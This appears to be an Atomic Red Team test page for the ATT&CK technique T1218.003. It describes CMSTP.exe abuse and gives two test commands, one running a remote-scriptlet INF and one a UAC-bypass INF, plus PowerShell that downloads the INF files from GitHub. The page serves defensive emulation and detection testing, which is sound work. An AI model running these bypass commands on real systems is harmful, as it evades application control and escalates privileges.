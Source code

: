 # T1218.003 - CMSTP
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1218/003)
<blockquote>Adversaries may abuse CMSTP to proxy execution of malicious code. The Microsoft Connection Manager Profile Installer (CMSTP.exe) is a command-line program used to install Connection Manager service profiles. (Citation: Microsoft Connection Manager Oct 2009) CMSTP.exe accepts an installation information file (INF) as a parameter and installs a service profile leveraged for remote access connections.

Adversaries may supply CMSTP.exe with INF files infected with malicious commands. (Citation: Twitter CMSTP Usage Jan 2018) Similar to [Regsvr32](https://attack.mitre.org/techniques/T1218/010) / ”Squiblydoo”, CMSTP.exe may be abused to load and execute DLLs (Citation: MSitPros CMSTP Aug 2017)  and/or COM scriptlets (SCT) from remote servers. (Citation: Twitter CMSTP Jan 2018) (Citation: GitHub Ultimate AppLocker Bypass List) (Citation: Endurant CMSTP July 2018) This execution may also bypass AppLocker and other application control defenses since CMSTP.exe is a legitimate, signed Microsoft application.

CMSTP.exe can also be abused to [Bypass User Access Control](https://attack.mitre.org/techniques/T1548/002) and execute arbitrary commands from a malicious INF through an auto-elevated COM interface. (Citation: MSitPros CMSTP Aug 2017) (Citation: GitHub Ultimate AppLocker Bypass List) (Citation: Endurant CMSTP July 2018)</blockquote>

## Atomic Tests

- [Atomic Test #1 - CMSTP Executing Remote Scriptlet](#atomic-test-1---cmstp-executing-remote-scriptlet)

- [Atomic Test #2 - CMSTP Executing UAC Bypass](#atomic-test-2---cmstp-executing-uac-bypass)


<br/>

## Atomic Test #1 - CMSTP Executing Remote Scriptlet
Adversaries may supply CMSTP.exe with INF files infected with malicious commands

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| inf_file_path | Path to the INF file | path | PathToAtomicsFolder&#92;T1218.003&#92;src&#92;T1218.003.inf|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cmstp.exe /s #{inf_file_path}
```




#### Dependencies:  Run with `powershell`!
##### Description: INF file must exist on disk at specified location (#{inf_file_path})
##### Check Prereq Commands:
```powershell
if (Test-Path #{inf_file_path}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{inf_file_path}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.003/src/T218.003.inf" -OutFile "#{inf_file_path}"
```




<br/>
<br/>

## Atomic Test #2 - CMSTP Executing UAC Bypass
Adversaries may invoke cmd.exe (or other malicious commands) by embedding them in the RunPreSetupCommandsSection of an INF file

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| inf_file_uac | Path to the INF file | path | PathToAtomicsFolder&#92;T1218.003&#92;src&#92;T1218.003_uacbypass.inf|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cmstp.exe /s #{inf_file_uac} /au
```




#### Dependencies:  Run with `powershell`!
##### Description: INF file must exist on disk at specified location (#{inf_file_uac})
##### Check Prereq Commands:
```powershell
if (Test-Path #{inf_file_uac}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{inf_file_uac}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.003/src/T1218.003_uacbypass.inf" -OutFile "#{inf_file_uac}"
```




<br/>
